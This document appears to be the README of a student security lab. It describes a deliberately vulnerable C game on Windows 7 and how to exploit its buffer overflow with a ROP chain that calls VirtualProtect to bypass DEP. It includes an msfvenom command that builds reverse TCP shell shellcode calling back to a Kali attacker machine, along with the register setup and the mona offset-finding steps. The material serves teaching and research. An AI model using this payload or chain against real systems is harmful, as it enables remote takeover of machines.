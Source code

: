 # GuesstheNumber
## About the Software
GuesstheNumber is a simple CLI game to guess a 4 digits number. A player is required to enter their name in the passcode file. The  application reads the name from the file and asks the user to enter number of attempts to guess the number, which is randomly generated in the background. If the user guesses the number within the chosen number of attempts it displays "You Won!" otherwise game ends with "Better luck next time!". The primary purpose of the game is to demonstrate buffer overflow vulnerabilities in  C functions (eg. strcpy, scanf) and demonstrate how they can be exploited using Return Oriented Programming (ROP) technique despite modern Operating Systems such as Windows 7 having protection mechanisms such as Dynamic Execution Prevention(DEP), Address Space Layout Randomization (ASLR) etc.

## Folder Structure 

Folder structure for the files submitted is as below
| Folder | Files|
|-------------|----------------------------|
|App          |guessthenumber.c guessdll.c |
|DEP Demo     |DEPBypassDemo_z5307356.mp4  |
|Exploit      | exploit.py exploit2.py     |   
|Makefile     |   Makefile                 |
|             | .gitignore                 |
|             |ReadMe.md                   |

## Compiling the Software
Binaries have been provided and no further change to the source code is required before compiling the software. Further details are in the section below.

> Note Makefile is supplied but is not guaranteed to work.

Use the MinGW C compiler for Windows.
- First compile the dll file:
```sh
gcc.exe -c guessdll.c
gcc.exe -shared -o guessdll.dll -Wl,--out-implib=guessdll.a -Wl,--image-base=0x62500000 guessdll.o
```

- Then compile the main program:
```sh
gcc.exe guessthenumber.c -o guess.exe -Wl,--image-base=0x63600000 -lws2_32 ./guessdll.a
```
## Running the Software
Steps for running the Software as below:
- Please makes sure that the guess.exe, guessdll.dll and passcode.txt are in the same directory. otherwise the program will not read the passcode and bufferoverflow will not occur.
- For debugging purposes Immunity Debugger can be used to control the flow of the program and conduct deeper analysis of registers, stack, machine code and  bypass DEP.

## Operating Systems
- Windows 7 Professional Service Pack 1 - Victim Machine 
- Kali 2022.3 - Attacker 

## Virtual Machine 
- VirtualBox 6.1 
- For the first exploit make sure that there is connectivity between the vitrual machines and IP address is updated accordingly when building the shellcode. To configure network connectivity go to setting -> Select Network -> Under Adapter 1 tab select NAT network and enter a name. Make sure that the name is same for both Windows and Kali machine 
- Also, under Setting  select system and make sure that the Enable PAE/NX box is ticked under processor tab.

## Programming Languages
- GuesstheNumber game developed in C Programming language and compiled using MINGW compiler
- Exploit Developed in Python 2.7 

## Exploitation 
Enable DEP in the target machine 
- right click on Computer and select Properties 
- click on Advanced System Settings and open the "Advanced" tab
- Under "Performance" click on "Settings" and go to Data Execution prevention
- Click on the radio button "Turn on DEP for all programs and services except those I select.
- Restart the Machine 

Generating Reverse TCP Shellcode 
-   msfvenom -n 100 -p windows/shell_reverse_tcp -f python -x x86 --platform windows -b         "\x00\x0d\x0a\x2f" -e x86/shiakata_ga_nai LHOST=192.168.10.5 LPORT=443 > reverse_tcp1.sc where LHOST is IP Address of Kali Machine

Win API Funtion Used to Bypass DEP is VirtualProtect
-   BOOL VirtualProtect(     => Pointer to VirtualProtect
  [in]  LPVOID lpAddress,    => Return Address
  [in]  SIZE_T dwSize,       => value is 0x201
  [in]  DWORD  flNewProtect, =>value is 0x40    
  [out] PDWORD lpflOldProtect => writable pointer 
);
- To achieve the above we need following values in the register and the exploit file is written to capture the following 
EAX - No Operations with value 90909090
ECX - Writable Pointer =>lpflOldProtect
EDX - 00000040 => flNewProtect
EBX - 00000201 => dwSize
ESP - No action required
EBP - JMP ESP or PUSH ESP & RETN
ESI - Pointer to virtual Protect 
EDI - same as EIP

Before configuring the above details for the registers check if the bufferflow happens by injecting 500 A's 
Then find the offset for the EIP using the pattern generated by mona using the command 
```sh
!mona pattern_create 500
!mona suggest 
````
Find the return address in the guessdll file and include it in the exploit and develop the ROP chain as per the instruction above followed by NOP SLED.Shellcode for Calc (exploit2.py ) or Reverse_TCP(exploit.py) is added to the exploit followed by junk.
Please check the exploit files for further details.

## Exploit files 
There are two exploit files inclduded in this submission
- first one to bypass DEP and execute Reverse Shell connection to the Kali Machine
- second one bypass DEP and dispaly calc in the local Windows machine. Demonstration inclduded in the submission.

## Generating Shellcode 
Use the following command to generate shellcode
```sh
python exploit.py
```
Once shellcode file 'passcode.txt'is generated copy it to the directory where guess.exe and guessdll.dll files exist.

## References 
1. https://www.youtube.com/watch?v=HUfNUqsyb88&t=323s
2. https://h0mbre.github.io/Creating_Win32_ROP_Chains/#
3. https://docs.microsoft.com/en-us/windows/win32/api/memoryapi/nf-memoryapi-virtualprotect
4. https://tahadraidia.com/posts/alternative-to-jmp-esp/
5. https://www.corelan.be/index.php/2010/06/16/exploit-writing-tutorial-part-10-chaining-dep-with-rop-the-rubikstm-cube/
6. https://www.youtube.com/watch?v=eMUqjImJDXo
7. https://www.thegeekstuff.com/2013/06/buffer-overflow/
8. https://www.slideshare.net/CeSeNA/exploit-techniques-8833216?next_slideshow=8833216
9. http://grey-corner.blogspot.com

## Warning 
UNDER NO CIRCUMSTANCES SHOULD THIS SOFTWARE BE RUN ON ANY SYSTEM THAT IS CONNECTED TO AN UNTRUSTED NETWORK OR THAT PERFORMS CRITICAL FUNCTIONS. THE AUTHOR IS NOT RESPONSIBLE FOR ANY DAMAGES THAT MAY OCCUR FROM USING THIS SOFTWARE IN THIS OR ANY OTHER MANNER. USE AT YOUR OWN RISK.

>Author -Bibek Bhandari - Enterprise Architect and Independent Security Researcher
